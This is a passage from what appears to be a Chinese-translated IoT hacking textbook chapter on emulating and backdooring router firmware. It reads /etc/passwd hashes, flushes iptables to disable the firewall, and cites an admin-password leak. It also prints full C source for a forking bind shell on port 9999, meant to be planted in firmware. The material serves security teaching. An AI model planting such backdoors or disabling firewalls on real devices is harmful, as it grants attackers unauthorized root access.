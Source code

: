 usr etc               linuxrc           sys               var ```    浏览这些目录。例如，在 *etc* 目录中，*/etc/passwd* 文件在基于 Unix 的系统中维护身份验证详情。你可以用它来验证在静态分析中识别的帐户是否存在。    ``` $ **cat /****etc****/passwd**  admin:$1$$I2o9Z7NcvQAKp7wyCTlia0:0:0:root:/:/bin/sh qwertyuiopqwertyuiopqwertyuiopqwertyuiopqwertyuiopqwertyuiopqwertyuiopqwerty ```  uiopqwertyuiopqwertyuiopqwertyuiopqwertyuiopqwertyui:$1$$MJ7v7GdeVaM1xIZdZYKzL1:0:0:root:/:/bin/sh  ``` anonymous:$1$$D3XHL7Q5PI3Ut1WUbrnz20:0:0:root:/:/bin/sh ```    接下来，识别网络服务和已建立的连接非常重要，因为你可能会发现一些可以在后续阶段进行进一步利用的服务。你可以使用 `netstat` 命令来实现这一点：    ``` $ **netstat -a -n -u -t** Active Internet connections (servers and established) Proto Recv-Q Send-Q Local Address           Foreign Address         State       tcp        0      0 0.0.0.0:3333            0.0.0.0:*               LISTEN       tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN       tcp        0      0 0.0.0.0:53              0.0.0.0:*               LISTEN       tcp        0      0 192.168.1.1:23          0.0.0.0:*               LISTEN       tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN       tcp        0      0 :::80                   :::*                    LISTEN       tcp        0      0 :::53                   :::*                    LISTEN       tcp        0      0 :::443                  :::*                    LISTEN       udp        0      0 192.168.1.1:137         0.0.0.0:*                            udp        0      0 0.0.0.0:137             0.0.0.0:*                            udp        0      0 192.168.1.1:138         0.0.0.0:*                            udp        0      0 0.0.0.0:138             0.0.0.0:*                            udp        0      0 0.0.0.0:50851           0.0.0.0:*                            udp        0      0 0.0.0.0:53              0.0.0.0:*                            udp        0      0 0.0.0.0:67              0.0.0.0:*                            udp        0      0 :::53                   :::*                                 udp        0      0 :::69                   :::*  ```    `-a` 参数请求监听和非监听网络套接字（IP 地址和端口的组合）。`-n` 参数以数字格式显示 IP 地址。`-u` 和 `-t` 参数返回 UDP 和 TCP 套接字。输出表示在 80 和 443 端口上存在一个等待连接的 HTTP 服务器。    要从主机设备访问网络服务，可能需要禁用固件中现有的防火墙实现。在 Linux 平台上，这些实现通常基于 `iptables`，它是一个命令行工具，允许你配置 Linux 内核中的 IP 数据包过滤规则列表。每条规则列出了某些网络连接属性，如使用的端口、源 IP 地址和目标 IP 地址，并指定是否允许或阻止具有这些属性的网络连接。如果新的网络连接与任何规则都不匹配，防火墙将使用默认策略。要禁用任何基于 `iptables` 的防火墙，可以使用以下命令将默认策略更改为接受所有连接，然后清除任何现有规则：    ``` $ **iptables --policy INPUT ACCEPT** $ **iptables --policy FORWARD ACCEPT** $ **iptables --policy OUTPUT ACCEPT** $ **iptables -F** ```    现在尝试使用浏览器访问设备的 IP 地址，以访问固件托管的 web 应用程序（图 9-3）。  ![f09003](img/f09003.png)    图 9-3：固件的 web 应用程序      你可能无法访问所有固件的 HTTP 页面，因为其中许多页面需要来自专用硬件组件的反馈，例如 Wi-Fi、重置和 WPS 按钮。FIRMADYNE 很可能不会自动检测并模拟所有这些组件，结果可能会导致 HTTP 服务器崩溃。你可能需要多次重启固件的 HTTP 服务器才能访问某些页面。我们将这部分留给你自行完成。    本章不会涵盖网络攻击，但你可以使用第四章中的信息来识别网络堆栈和服务中的漏洞。首先评估设备的 HTTP 服务。例如，公开访问的页面 */cgi-bin/passrec.asp* 的源代码包含管理员密码。Netgear 已在 [`kb.netgear.com/30490/CVE-2015-8289-Authentication-Bypass-Using-an-Alternate-Path-or-Channel/`](https://kb.netgear.com/30490/CVE-2015-8289-Authentication-Bypass-Using-an-Alternate-Path-or-Channel/) 发布了这个漏洞。    ## 后门固件    *后门代理* 是一种隐藏在计算设备中的软件，允许攻击者获得对系统的未经授权访问。在本节中，我们将通过添加一个微小的后门来修改固件，该后门将在固件启动时执行，提供给攻击者从受害设备获得 shell。除此之外，后门还将允许我们在真实且功能完整的设备上执行动态分析，并获得 root 权限。当 FIRMADYNE 无法正确模拟所有固件功能时，这种方法尤为有用。    作为后门代理，我们将使用 Osanda Malith 编写的一个简单绑定 shell（Listing 9-1）。这个脚本监听新传入的连接到一个预定义的网络端口，并允许远程执行代码。我们在原始脚本中添加了一个 `fork()` 命令，使其能够在后台运行。这样会创建一个新的子进程，该进程并行运行在后台，而父进程简单地终止，并防止调用程序停止。    ``` #include <stdio.h> #include <stdlib.h> #include <string.h> #include <sys/types.h> #include <sys/socket.h> #include <netinet/in.h>  #define SERVER_PORT	9999  /* CC-BY: Osanda Malith Jayathissa (@OsandaMalith)   * Bind Shell using Fork for my TP-Link mr3020 router running busybox   * Arch : MIPS   * mips-linux-gnu-gcc mybindshell.c -o mybindshell -static -EB -march=24kc   */ int main() {         int serverfd, clientfd, server_pid, i = 0;         char *banner = "[~] Welcome to @OsandaMalith's Bind Shell\n";         char *args[] = { "/bin/busybox", "sh", (char *) 0 };         struct sockaddr_in server, client;         socklen_t len; **int x =** **fork(****);** **if (x ==** **0){**         server.sin_family = AF_INET;         server.sin_port = htons(SERVER_PORT);         server.sin_addr.s_addr = INADDR_ANY;           serverfd = socket(AF_INET, SOCK_STREAM, 0);         bind(serverfd, (struct sockaddr *)&server, sizeof(server));         listen(serverfd, 1);      while (1) {          len = sizeof(struct sockaddr);         clientfd = accept(serverfd, (struct sockaddr *)&client, &len);         server_pid = fork();          if (server_pid) {              write(clientfd, banner,  strlen(banner));             for(; i <3 /*u*/; i++) dup2(clientfd, i);             execve("/bin/busybox", args, (char *) 0);             close(clientfd);          } close(clientfd);     }  **}** return 0; } ```    Listing 9-1：修改版 Osanda Malith 的后门脚本 ([`github.com/OsandaMalith/TP-Link/blob/master/bindshell.c`](https://github.com/OsandaMalith/TP-Link/blob/master/bindshell.c))    执行该脚本后，它将在端口 9999 上开始监听，并将通过该端口收到的任何输入作为系统命令执行。    要编译后门代理，我们首先需要设置编译环境。最简单的方法是使用 OpenWrt 项目的频繁更新的工具链。    ``` $ **git clone https://github.com/openwrt/openwrt** $ **cd** **openwrt** $ **.****/scripts/feeds update -a** $ **.****/scripts/feeds install -a** $ **make** **menuconfig** ```    默认情况下，这些命令将为基于 MIPS 处理器的 Atheros AR7 系列的系统芯片（SoC）路由器编译固件。要设置其他值，请点击 **目标系统** 并选择可用的 Atheros AR7 设备之一（图 9-4）。  ![f09004](img/f09004.png)    图 9-4：重新配置 OpenWrt 构建目标环境      然后通过点击 **保存** 选项将更改保存到新配置文件，并通过点击 **退出** 选项退出菜单（图 9-5）。  ![f09005](img/f09005.png)    图 9-5：在 OpenWrt 设置中选择 Atheros 目标      接下来，使用 `make` 命令编译工具链：    ``` $ **make toolchain/install** time: target/linux/prereq#0.53#0.11#0.63 make[1] toolchain/install make[2] tools/compile make[3] -C tools/flock compile …